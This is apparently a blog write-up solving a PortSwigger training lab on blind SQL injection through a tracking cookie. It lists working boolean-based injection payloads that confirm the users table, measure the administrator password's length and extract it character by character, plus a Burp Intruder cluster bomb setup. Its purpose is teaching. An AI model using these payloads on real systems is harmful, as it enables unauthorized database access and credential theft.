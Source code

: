 ```yaml
---
title: PSA - SQLi 11 - Blind SQLi with conditional responses
date: 2023-05-17
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli, blind, clusterbomb]
img_path: /assets/img/
---
```


Difficulty: `Practitioner`

## 🎯 Goal

This lab contains a blind SQLi vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "**Welcome back**" message in the page if the query returns any rows.

The database contains a different table called ``users``, with columns called ``username`` and ``password``. You need to exploit the blind SQL injection vulnerability to find out the password of the ``administrator`` user.

To solve the lab, log in as the ``administrator`` user.

## ✅ Solution

First, let's capture the request into Burp to see what it looks like:

````http
GET / HTTP/2
Host: <host>
Cookie: TrackingId=inef9UVjAF4GJLdj; session=86UdOy9CSRpdDtjDrCqiziIuKdAog6uR
Cache-Control: max-age=0
[...]
````

We know the query behind the ``TrackingId`` is vulnerable to blind SQLi and a ``Welcome back`` message is displayed when the query returns ``true``.

We can test this behaviour with a basic test:

````s
TrackingId=inef9UVjAF4GJLdj' AND '1'='1;    # Welcome back
TrackingId=inef9UVjAF4GJLdj' AND '1'='2;    # Nothing
````

Let's be sure there is a `users` table:

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users LIMIT 1)='a     # Welcolme back
````

Let's be sure there is an `administrator` user:

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator')='a      # Welcolme back
````

Before guessing the password we have to find its length. I could automate it but usually password aren't that long :(

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a     # Welcome back: password length > 1 char
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>10)='a    # Welcome back: password length > 10 chars
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a    # Nothing: password length <= 20 chars
````

Ok so password is between 10 and 20 chars. Let's try one by one now.

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20)='a    # Welcome back: password length = 20 chars
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=19)='a    # Nothing: password length != 19 chars
````

The password is ``20`` characters long.

Now time to guess the password. Two possibilities:

- Manually checking every characters at every position (boring)
- Automate with Burp Intruder to send hundreds of requests for us (cool)

Even if we should always automate everything as much as we can I will still present the manual way to show how it is working.

### 1. Manual password guessing

We will have to test one by one every character possible for every position. It's written the password only includes lowercase alphanumeric characters ([a-z][0-9]) and there are 20 positions (the password length) so it's a total of ``36 * 20 = 720`` posibilities...

Because it is too much to do manually I will only explain the principle behind: test every character for every position.

This query uses the ``SUBSTRING()`` function to extract a single character from the password, and test it against a specific value, here `a` at the position `1`. and `9` at the position `20`.

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a      # First request
TrackingId=inef9UVjAF4GJLdj' AND (SELECT SUBSTRING(password,20,1) FROM users WHERE username='administrator')='9     # Last request
````

Assuming I successfully sent the 720 requests without errors I should have found the password.

### 2. Automate password guessing

I have the Burp Suite Community Edition so I have some feature and throttle limitation but it's doing the work good.

First we have to send the request to the ``Intruder`` with ``ctrl+i``.

In the ``Positions`` tab select ``Cluster bomb``.

The payload positions will be the password character position and the character to test, as the following:

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§
````

In the Payloads tab:

- payload set 1 will be ``Numbers``
  - from ``1``
  - to ``20``
  - step of ``1``
- payload set 2 will be ``Brute forcer``
  - character set `abcdefghijklmnopqrstuvwxyz0123456789`
  - min length ``1``
  - max length ``1``

When everything is correctly set we can start the attack. Because the CE edition has a request rate limit of 1 per second it took 10+ minutes to end.

We can sort the result responses on their length because the responses with the Welcolme back message will be longuer than those without.

![attack responses](/psa/sqli/psa-sqli-11-1.png){: width="830" height="560" }
_Burp Cluster bomb attack results_

We obtain a table like below revealing the password!

|   1   |   2   |    3 |   4   |   5   |   6   |   7   |   8   |   9   |  10   |  11   |  12   |  13   |  14   |  15   |  16   |  17   |  18   |  19   |  20   |
| :---: | :---: | ---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: |
|   5   |   k   |    y |   j   |   d   |   q   |   4   |   y   |   a   |   q   |   6   |   0   |   q   |   j   |   6   |   6   |   6   |   7   |   4   |   1   |

We can now log in as the ``administrator`` user using the password ``5kyjdq4yaq60qj666741``.
